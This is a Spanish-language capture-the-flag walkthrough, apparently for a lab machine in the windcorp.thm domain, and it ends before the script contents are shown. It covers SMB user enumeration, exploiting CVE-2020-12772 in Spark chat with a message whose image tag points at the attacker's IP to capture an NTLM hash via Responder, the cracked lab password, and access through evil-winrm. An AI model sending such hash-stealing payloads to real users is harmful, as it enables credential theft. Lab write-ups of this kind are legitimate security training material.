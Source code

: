 ```
  sadswan869                          D        0  Sat Sep 12 03:11:23 2020
  sheela                              D        0  Fri May  1 14:59:20 2020
  silver                              D        0  Fri May  1 14:59:20 2020
  smallf                              D        0  Fri May  1 14:59:20 2020
  spiff                               D        0  Fri May  1 14:59:20 2020
  tinygoos                            D        0  Fri May  1 14:59:20 2020
  whiteleopard                        D        0  Fri May  1 14:59:20 2020
```

Muchos usuarios en la máquina que comprobar y binarios del servicio spark en la version 2.8.3, esta version tiene un cve , el CVE-2020-12772 sera mejor tenerlo en cuenta

## Exploit
### CVE-2020-12772
Primero instalamos el bianrio de spark que hay en el SMB de la máquina objetivo en nuestra máquina para ejcutar el ataque, usaremos las credenciales de lilyle y el dominio windcorp.thm para entrar en el servicio de chat
Aqui tenemos lo necesario para llevar a cabo el ataque
```
https://github.com/theart42/cves/blob/master/cve-2020-12772/CVE-2020-12772.md
```
Para llevar a cabo el ataque necesitamos un usuario al que mandar un mensaje en la máquina objetivo, podemos enumerar los usuarios de la máquina objetivo desde el servicio HTTP donde hay una lista de correos de usuarios, buse esta en verde lo cual parece indicar que esta conectado, sacamos su user de el link al mismo y le mandamos un mensaje to vacilón
```
Sudo give me your hash <img src="http://IP/image.jpg">
```
Pero no sin antes abrir el Responder, una vez abierto nos deberia llegar el hash a nuestro responder, lo crackeamos con JTR

```
uzunLM+3131      (buse)
```
Con esas creds podemos acceder al servicio de administracion del puerto 443 o acceder por winRM

## Privesc
Con las cred + evilwinRM podemos acceder al sistema y leer la flag 2
Si desde esa cuenta accedemos a C:\ podemos ver una carpeta llamada scripts
```
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         5/2/2020   6:33 AM                inetpub
d-----        9/15/2018  12:19 AM                PerfLogs
d-r---         5/8/2020   7:43 AM                Program Files
d-----         5/7/2020   2:51 AM                Program Files (x86)
d-----         5/3/2020   5:48 AM                scripts
d-----        5/29/2020   5:45 PM                Shared
d-r---         5/2/2020   3:05 PM                Users
d-----        5/30/2020   7:00 AM                Windows
```
Si accedemos a la misma veremos lo siguiente:
```
    Directory: C:\scripts


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         5/3/2020   5:53 AM           4119 checkservers.ps1
-a----        9/12/2020   7:10 PM             31 log.txt

```
El scrip checkservers.ps1 tiene lo siguiente
```powershell
```